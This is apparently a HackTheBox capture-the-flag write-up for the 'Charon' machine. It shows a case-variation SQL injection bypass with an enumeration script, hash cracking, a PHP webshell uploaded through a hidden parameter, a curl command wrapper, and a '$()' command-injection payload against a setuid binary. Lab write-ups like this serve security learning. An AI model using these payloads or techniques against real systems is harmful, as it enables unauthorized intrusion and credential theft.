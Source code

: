 
# initial enumeration

nmap scan:

![nmap_scan](./img/charon/charon_nmap.png)

| port | service | version | 
|-----|---------|----------|
| 22 | ssh|7.2p2|
| 80 | apache httpd| 2.4.18| 

feroxbuster scan
```
301      GET        9l       28w      307c http://10.129.1.66/js => http://10.129.1.66/js/
200      GET       94l      191w     2546c http://10.129.1.66/
301      GET        9l       28w      311c http://10.129.1.66/images => http://10.129.1.66/images/
301      GET        9l       28w      308c http://10.129.1.66/css => http://10.129.1.66/css/
301      GET        9l       28w      318c http://10.129.1.66/images/mobile => http://10.129.1.66/images/mobile/
301      GET        9l       28w      310c http://10.129.1.66/fonts => http://10.129.1.66/fonts/
301      GET        9l       28w      312c http://10.129.1.66/include => http://10.129.1.66/include/
403      GET       11l       32w      299c http://10.129.1.66/server-status

```
``

![yogurt](./img/charon/charon_yogurt_homepage.png)
home page

![supercms](./img/charon/charon_supercms.png)
looking up the cms on google i found a repo, last updated 4 years ago

https://github.com/rojr/SuperCMS

well i cant access anything and the webpage seems empty so i'll run a vhost scan
dead end

ran a dirscan again, this time with a .php extension and found a folder called `cmsdata` and a `/menu.php` which redirected me to a login page


# Foothold
after trying to fuzz some creds i checked the forgot password link and there i found the following error


## Sql Injection

![db error](./img/charon/charon_db_error.png)

running sqlmap found a vulnerable mysql database and gave me a database:
`supercms`

sqlmap didn't work other than giving me the db name 

trying a union injection just throws an error: 

![union error](./img/charon/charon_db_union_error.png)

weird
what if it's blocking the word union? or filtering it somehow? 
YUP

changing the union to anything different, like "uNion" bypasses the filter

enumerating how many rows the db has by executing the request multiple times with different numbers resulted in 4 rows, after the query returned an "Incorrect format" error 

![query](./img/charon/charon_union_query.png)

![incorrect](./img/charon/charon_incorrect_format.png)


after trying to see which row is the injectable one, i found that the 4th one is the injectable one.
so time to enumerate the db:
im gonna concat the information schema tables into this row to get the data from it into one row

well since it wants an email, lets add one to our concat statement:
![cols](./img/charon/charon_cols.png)

![error2](./img/charon/charon_error_2.png)

hmm.... an error...
maybe its filtering that as well

yep

![no user](./img/charon/charon_no_email.png)

it says that there isn't a username found with that email, probably because it's probably returning an error, so lets limit the result to see if it helps:
![limit](./img/charon/charon_limit_result.png)
yep

![limit2](./img/charon/charon_limit_2.png)


lets continue enumerating this db

db info:

![info](./img/charon/charon_dbinfo.png)


if i give the limit statement an offset, i could probably get the column names
![](./img/charon/charon_column.png)

yup. i'll write a script to automate this

![rows](./img/charon/charon_row.png)

interesting columns



__enum_db.py__
```python
import requests
import re


i = 0
reg = r"<h2> Email sent to: (.+?) "
query = {"email": f"aaa@aaa.com'uniOn select 1,2,3,CONCAT( COLUMN_NAME,  \" | \",\" | \",  \"@aaa.com\") FROM INFORmATION_SCHEMA.COLUMNS limit 1 offset {i};-- -"}

url = "http://charon.htb/cmsdata/forgot.php"
while i < 1001:
        r = requests.post(url, data=query)
        reg_query = re.search(reg, r.text)
        query = {"email": f"aaa@aaa.com'uniOn select 1,2,3,CONCAT( COLUMN_NAME,  \" | \",\" | \",  \"@aaa.com\") FROM INFORmATION_SCHEMA.COLUMNS limit 1 offset {i};-- -"}
        print(reg_query.group(1) + f" | INDEX: {i}")
        i += 1

```

using the script above and the database tables we found, we can enumerate usernames:

![users](./img/charon/charon_users.png)

managed to leak a hash!
0b0689ba94f94533400f4decd87fa260

using https://md5decrypt.net/en/#answer
 i decrypted the hash and got:
 0b0689ba94f94533400f4decd87fa260 : **tamarro**

i managed to log in with the creds:

**super_cms_adm:tamarro**

![ap](./img/charon/charon_admin_panel.png)

![ep](./img/charon/charon_editpage.png)

we can edit this page??
any webshell addicts in chat? 

well i cant write to the files in any way
however, i can upload files

![upload](./img/charon/charon_upload_image.png)


![blacklist](./img/charon/charon_blacklist.png)

we can only upload .jpg, .gif and .png

looking at the source i see a weird hidden input variable. 
![sparam](./img/charon/charon_secret_param.png)
that decodes to: *testfile1*

uncommenting the input generates a new input form... with the encoded value. 

changing that encoded value to the decoded value and uncommenting it allows me to just upload any image file under any name i want! meaning i can save an image with a php webshell in it and upload it as a webshell! lets try:


![burp](./img/charon/charon_secret_param2.png)

it uploaded to the images folder.. lets try to execute code with it

![shell upload](./img/charon/charon_success_shell.png)

## Command Execution

![url](./img/charon/charon_url_shell.png)
![rce](./img/charon/charon_rce.png)

wrote a very basic automation script to simulate a shell:

```bash
curl http://charon.htb/images/shell.php?cmd=$1 -s --output - 
```

user found: decoder

# User flag

enumerating some stuff i found db creds in the `freeeze` folder:

![db creds](./img/charon/charon_db_creds.png)

**freeeze:fr2424z**

![sqli](./img/charon/charon_sqli.png)

```
1 -word filter
sqli - the vulnerable query
```

 i can read the `pass.crypt` and `decoder.pub` files in decoder's home directory, but not the user file
 ![readable](./img/charon/charon_readable_files.png)
pass.crypt: mTJPrVNiiaHi0Y3QImXNfxVXnWecid0ZVMjFbzeNEUk=

running RsaCtfTool on the decoder.pub and pass.crypt files gives me a password: **nevermindthebollocks**

**decoder:nevermindthebollocks**

using the creds i can ssh as decoder and get the user flag

# Root flag


linpeas showed me that there is a readable binary called `supershell` which doesn't seem to be a default binary.. could this be a privesc vector?
![](./img/charon/charon_readable_file.png)

rafter copying the binary to my local system i opened it in ida and read the main function:
![](./img/charon/charon_ida_main.png)
![](./img/charon/charon_CI_check.png)



it appears that the binary takes our string, checks that there aren't any command injection strings and compares it to `/bin/ls`, then executes it with root privileges by setting it's uid to **0** . notice that the strings its filtering () are missing one string that can be used for command injection; `$()`.
lets try to exploit this


payload: `supershell '/bin/ls $(cat /root/root.txt)'`
![](./img/charon/charon_roottxt.png)
it worked! 


## Closing notes
ty to [decoder](https://app.hackthebox.com/users/1391) , the creator of the box for a fun and interesting box
